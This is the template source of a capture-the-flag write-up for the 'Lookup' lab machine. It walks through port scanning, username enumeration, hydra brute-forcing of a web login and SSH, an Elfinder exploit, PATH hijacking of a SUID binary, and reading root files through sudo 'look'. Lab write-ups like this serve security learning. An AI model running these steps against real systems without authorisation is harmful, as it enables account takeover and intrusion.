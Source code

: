 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.231.140", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-24 16:14 CET
Warning: 10.10.231.140 giving up on port because retransmission cap hit (2).
Nmap scan report for lookup.thm (10.10.231.140)
Host is up (0.082s latency).
Not shown: 62276 closed tcp ports (conn-refused), 3257 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 552.74 seconds
")}}

{{text("We discover 2 open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Going to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://10.10.231.140</code> redirects us to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://lookup.thm</code>, so we add that entry to our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file.")}}

{{text("We can now access the website, which displays a login form.")}}

{{image("../../static/writeups/lookup/images/000001.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("I tried to scan for different directories and subdomains but didn't find anything. The source code also has nothing interesting.")}}

{{text("I proceeded with analysing the login form. I noticed something vulnerable. When I set username to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>admin</code> instead of getting back <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Wrong username or password.</code> I got <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Wrong password.</code>")}}

{{image("../../static/writeups/lookup/images/000002.jpg")}}

{{text("This means the the correct username is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>admin</code>")}}

{{text("Knowing the username, I began brute-forcing the login form.")}}

{{console("hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again.' -t 64", "...
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again.
[80][http-post-form] host: lookup.thm   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found")}}

{{text("We find the password, which is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>password123</code>. Now we can log in.")}}

{{text("When I tried to log in with those credentials, I once again got back <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Wrong username or password.</code> which is weird.")}}

{{image("../../static/writeups/lookup/images/000003.jpg")}}

{{text("So it would seem that the username is incorrect after all? I once again ran <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hydra</code>, now bruteforcing the username.")}}

{{console("hydra -L /usr/share/wordlists/rockyou.txt -p password123 lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:Wrong username or password. Please try again.' -t 64", "...
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong username or password. Please try again.
[STATUS] 5946.00 tries/min, 5946 tries in 00:01h, 14338453 to do in 40:12h, 64 active
[80][http-post-form] host: lookup.thm   login: jose   password: password123")}}

{{text("We find the correct credentials, which are <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>jose:password123</code>.")}}

{{header("Shell as think", "shell-as-think")}}

{{text("We get redirected to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://files.lookup.thm</code> so we have to add this entry to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file.")}}

{{text("We see an <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Elfinder</code> page which is a open-source file manager for web.")}}

{{image("../../static/writeups/lookup/images/000004.jpg")}}

{{text("I tried using credentials from the files, but none seemed to work.")}}

{{text("I found currently used version.")}}

{{image("../../static/writeups/lookup/images/000005.jpg")}}

{{text("I tried searching for any exploits for our version of <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Elfinder</code> and found this.")}}

{{image("../../static/writeups/lookup/images/000006.jpg")}}

{{text("After choosing the exploit, I set correct options and ran it.")}}

{{image("../../static/writeups/lookup/images/000007.jpg")}}

{{text("We already guessed that there is a user called <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>think</code> from when we looked at the files on the site. In his home directory we find a file called <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.passwords</code> but we don't have permissions to read it.")}}

{{text("We should search for binaries with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID</code> bit.")}}

{{console("find / -perm /4000 2>/dev/null", "...
/usr/sbin/pwm
...")}}

{{text("This binary seemed interesting, because I have not seen it before.")}}

{{image("../../static/writeups/lookup/images/000008.jpg")}}

{{text("It executed the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code> command in order to read that user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.passwords</code> file from their directory.")}}

{{text("We can guess that there is no absolute path specified and we can run our own <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code> file.")}}

{{text("I create my own <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code> file in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>tmp</code> directory that will echo user think <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code> command in order to trick the program to read that user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.passwords</code> file.")}}

{{image("../../static/writeups/lookup/images/000009.jpg")}}

{{text("Command works, and the program reads a file containing a list of potential passwords.")}}

{{text("I copied this file, saved it into a file and began brute-forcing the password.")}}

{{console("hydra -l think -P passwords.txt ssh://10.10.193.239", "...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://10.10.193.239:22/
[22][ssh] host: 10.10.193.239   login: think   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found")}}

{{text("We succesfully brute-force the password, and now are able to log in via SSH.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Since we know the current user password, first thing I did is check our sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look")}}

{{text("It seems we can run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/bin/look</code> as root. Let's try and find a way to privilage escalate using this.")}}

{{link("https://gtfobins.github.io/gtfobins/look/", "https://gtfobins.github.io/assets/logo.png", "look | GTFOBins")}}

{{text("According to this if we run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/bin/look '' 'FILE'</code> it should read that file.")}}

{{image("../../static/writeups/lookup/images/000010.jpg")}}

{{text("It was successful and we got the flag.")}}

{{script()}}
